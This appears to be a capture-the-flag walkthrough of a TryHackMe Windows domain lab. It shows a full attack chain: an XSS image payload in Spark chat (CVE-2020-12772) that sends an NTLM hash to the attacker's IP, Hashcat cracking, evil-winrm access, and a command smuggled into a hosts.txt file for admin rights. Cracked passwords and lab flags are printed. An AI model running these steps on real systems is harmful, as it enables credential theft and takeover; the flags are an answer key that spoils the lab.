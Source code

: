 > Ra | Windows

# Nmap

nmap -sC -sV -T4 -Pn -vv -A -p- -oN nmap/initial windcorp.thm

```bash
53/tcp    open  domain              syn-ack Simple DNS Plus
80/tcp    open  http                syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Windcorp.
88/tcp    open  kerberos-sec        syn-ack Microsoft Windows Kerberos (server time: 2021-06-10 14:46:23Z)
135/tcp   open  msrpc               syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn         syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap                syn-ack Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?       syn-ack
464/tcp   open  kpasswd5?           syn-ack
593/tcp   open  ncacn_http          syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped          syn-ack
3268/tcp  open  ldap                syn-ack Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped          syn-ack
5222/tcp  open  jabber              syn-ack
5223/tcp  open  ssl/hpvirtgrp?      syn-ack
5229/tcp  open  jaxflow?            syn-ack
5262/tcp  open  jabber              syn-ack
5270/tcp  open  ssl/xmp?            syn-ack
5275/tcp  open  jabber              syn-ack
5276/tcp  open  ssl/unknown         syn-ack
5985/tcp  open  http                syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7443/tcp  open  ssl/http            syn-ack Jetty 9.4.18.v20190429
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Jetty(9.4.18.v20190429)
|_http-title: Openfire HTTP Binding Service
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Issuer: commonName=fire.windcorp.thm
9091/tcp  open  ssl/xmltec-xmlmail? syn-ack
9389/tcp  open  mc-nmf              syn-ack .NET Message Framing
49670/tcp open  msrpc               syn-ack Microsoft Windows RPC
49674/tcp open  ncacn_http          syn-ack Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc               syn-ack Microsoft Windows RPC
49676/tcp open  msrpc               syn-ack Microsoft Windows RPC
49696/tcp open  msrpc               syn-ack Microsoft Windows RPC
```

Once looking at the website we can find a reset password button .But before that we have to have am usename. Scrolling down we have a list of users. I tried to login to SMB Anonymously but nothing showed up. So as I was inspecting the usernames I came to look at an image `img/lilyleAndSparky.jpg` and a dog in it with quotes `I love being able to bring my best friend to work with me!.` Also while clicking at the Reset Password button it asks for certain question and on of them is `What is ur 1st pet name` and we have `Sparky` the dog. So we can reset lilye's password. And yes we can change that!

We are prompted a message 

```
Your password has been reset to: ChangeMe#1234
Remember to change it after logging in! 
```

But where can we use that password. Let's start with SMB.

crackmapexec smb windcorp.thm -u lilyle -p ChangeMe#1234

```bash
SMB         10.10.245.33    445    FIRE             [+] windcorp.thm\lilyle:ChangeMe#1234
```

smbmap -u lilyle -p ChangeMe#1234 -R -H windcorp.thm

And I can locate Flag1.txt in /shared. smbclient //windcorp.thm/Shared -U lilyle

# Flag 1.txt

```
THM{466d52dc75a277d6c3f6c6fcbc716d6b62420f48}
```

And we got another interesting file named Spark. Let's get that one too! And let's install it `sudo dpkg -i spark_2_8_3.deb`. Now running `spark` gives us the UI. But spark is Open Source and looks outdated too! Let's login but before that we have to accept all certificates and disable hostname verification in Advanced Option.

Wow!! We got an exploit too!`CVE-2020-12772`.

# Steps

1. We have to be authenticated. We are.
2. We have to chat with someone. And while looking at the users name we got only 1 user with green symbol looks like he is online.

```
<a href="xmpp:buse@fire.windcorp.thm">Buse Candan</a>
```

3. Start a chat with Buse.
4. Attach the payload `Hi! <img src="http://10.9.12.130/image.jpg">` and have Responder ready.
5. We got buse's hash.

```bash
[HTTP] NTLMv2 Client   : 10.10.59.82
[HTTP] NTLMv2 Username : WINDCORP\buse
[HTTP] NTLMv2 Hash     : buse::WINDCORP:1122334455667788:0E7B864FFF568D6FD5C4AD44E94DA64F:0101000000000000A789F77A555FD701F6980EAE22378868000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C000800300030000000000000000100000000200000A960785542E722B5B1E65BA17D220D19BAD90E4F9BA7CE2ABA0343A5EA1ED1FC0A00100000000000000000000000000000000000090000000000000000000000
```

Let's crack using Hashcat

hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force

`uzunLM+3131`

Since WinRM is open let's try it!

./evil-winrm.rb -i windcorp.thm -u buse -p uzunLM+3131

We are in as buse.

# Flag 2.txt

```
THM{6f690fc72b9ae8dc25a24a104ed804ad06c7c9b1}
```

While looking around we can find `C:\scripts` and we have a file name `checkserver.ps`. Checking it we can find that it is reading hostnames from `C:\Users\brittanycr\hosts.txt` but we don't have permission to read it.

whomai /groups

```
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Account Operators                   Alias            S-1-5-32-548                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users                Alias            S-1-5-32-555                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
WINDCORP\IT                                 Group            S-1-5-21-555431066-3599073733-176599750-5865 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```

Account Operators group grants limited account creation privileges to a user. This can essentially create and manage users and groups in the domain, including its own membership and that of the Server Operators group. So let's change brittanycr's password. But we have to meet the AD password policy.

Get-ADDefaultDomainPasswordPolicy

```bash
ComplexityEnabled           : True
DistinguishedName           : DC=windcorp,DC=thm
LockoutDuration             : 00:02:00
LockoutObservationWindow    : 00:02:00
LockoutThreshold            : 5
MaxPasswordAge              : 42.00:00:00
MinPasswordAge              : 1.00:00:00
MinPasswordLength           : 7
objectClass                 : {domainDNS}
objectGuid                  : 3fba0196-bc8f-44f2-8b8f-ecb8698a7c22
PasswordHistoryCount        : 24
ReversibleEncryptionEnabled : True
```

net user /domain brittanycr NoobMaster123

Let's login through SMB and get the hosts file now.

smbclient  \\\\windcorp.thm\\Users -U brittanycr

```bash
cd brittanycr
GET hosts.txt
```

## hosts.txt

```
google.com
cisco.com
```

Let's try to create a user to admin group.

```
net user ghandi CyberGoat1234 /add
The command completed successfully.
net localgroup Administrators ghandi /add
net.exe : System error 5 has occurred.
    + CategoryInfo          : NotSpecified: (System error 5 has occurred.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
```

So we can't add the user to admin group. Let's put the command in the hosts.txt file.

```
google.com
notadomain.ru; net localgroup Administrators ghandi /add
```

./evil-winrm.rb -i windcorp.thm -u ghandi -p CyberGoat1234

We are in as ghandi.

# Flag 3.txt

```
THM{ba3a2bff2e535b514ad760c283890faae54ac2ef}
```